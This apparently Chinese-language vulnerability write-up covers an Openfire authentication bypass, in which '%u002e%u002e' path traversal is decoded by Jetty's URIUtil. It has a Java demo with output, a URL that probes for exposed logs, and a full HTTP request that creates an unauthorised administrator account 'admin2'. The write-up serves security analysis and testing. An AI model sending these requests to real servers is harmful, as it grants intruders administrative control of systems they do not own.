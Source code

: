 ```java
package org.jetty;

import org.eclipse.jetty.util.URIUtil;

class Main {
    public static void main(String[] args) {
        String path = "/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp";

        String decodedNonCanonical = URIUtil.decodePath(path);
        System.out.println("decodedNonCanonical: " + decodedNonCanonical);
        String decodedPath = URIUtil.canonicalPath(decodedNonCanonical);
        if (decodedPath == null)
            throw new IllegalArgumentException("Bad URI");
        System.out.println("decodedPath: " + decodedPath);
    }
}
```

首先`URIUtil.decodePath`将`/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp`解码为`/setup/setup-s/../../log.jsp`，接着`URIUtil.canonicalPath`方法将该路径规范化处理成`/log.jsp`。

```text
2023-06-15 16:33:47.987:INFO::main: Logging initialized @272ms to org.eclipse.jetty.util.log.StdErrLog
decodedNonCanonical: /setup/setup-s/../../log.jsp
decodedPath: /log.jsp
```

在维基百科的说法中，`%uxxxx`这种形式的编码是一种非标准的 Unicode 字符编码方式，其中 xxxx 表示一个 UTF-16 代码单元，由四个十六进制数字表示。这种行为没有被任何 RFC 规范指定，并且被 W3C 拒绝。

## 漏洞利用

### 路径遍历

在一个未登录 Openfire 的浏览器中，通过如下请求路径，如果显示部分日志文件则表明存在漏洞，如果重定向到登录页面，则表明无漏洞。

```text
http://localhost:9090/setup/setup-s/%u002e%u002e/%u002e%u002e/log.jsp
```

### 未授权用户创建

创建一个账号和密码为 admin2/admin2 的管理员用户。

```text
GET /setup/setup-s/%u002e%u002e/%u002e%u002e/user-create.jsp?csrf=Jm6f0wY78QMP8jj&username=admin2&name=admin2&email=admin2%40example.com&password=admin2&passwordConfirm=admin2&isadmin=on&create=Create+User HTTP/1.1
Host:
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Connection: close
Cache-Control: max-age=0


```
